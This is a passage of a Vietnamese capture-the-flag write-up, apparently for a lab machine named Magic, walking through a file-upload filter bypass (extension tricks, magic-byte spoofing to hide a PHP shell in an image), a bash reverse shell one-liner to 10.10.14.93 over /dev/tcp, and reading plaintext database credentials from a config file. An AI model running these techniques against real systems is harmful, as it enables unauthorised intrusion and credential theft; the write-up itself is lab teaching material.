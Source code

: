 ![image](https://hackmd.io/_uploads/HymO6Dzq0.png)

### File Upload
#### Extension file
Vì server chặn các file có thể chỉ mình `.php` nên ta sẽ up các file khác như `.phtml`, `php5`, `.php3` đều không được

![image](https://hackmd.io/_uploads/S15Tz_M90.png)

#### Giả mạo đuôi file
Đặt tên file là `a.php.png` và gửi lên server, một cảnh báo khác cũng xuất hiện

![image](https://hackmd.io/_uploads/SkZX7ufcC.png)

#### Magic byte
Một số server nhận là file ảnh bằng **header signature**. Việc đổi byte header hoặc chèn shell code cũng có thể giả mạo khiến server hiểu nó là file ảnh

![image](https://hackmd.io/_uploads/B1CiUOz5R.png)

![image](https://hackmd.io/_uploads/Hk9i6_z5R.png)

Sau khi upload lên, bắt đầu chạy shell

![image](https://hackmd.io/_uploads/Sk-xCuzqR.png)

Sử dụng `/bin/bash -c 'bash -i > /dev/tcp/10.10.14.93/1234 0>&1'` để có được reverse shell

![image](https://hackmd.io/_uploads/SJH7ZYM5R.png)

### Lateral Movement 
cd qua `home` để lấy user flag nhưng không có quyền đọc file, vì thế tiếp tục tìm xem có gì khac 

![image](https://hackmd.io/_uploads/HJy8fYG5A.png)

Tại `/var/www/Magic` ta tháy được 1 file db chứa thông tin của 1 database
```
ls 
assets
db.php5
images
index.php
login.php
logout.php
upload.php
cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
```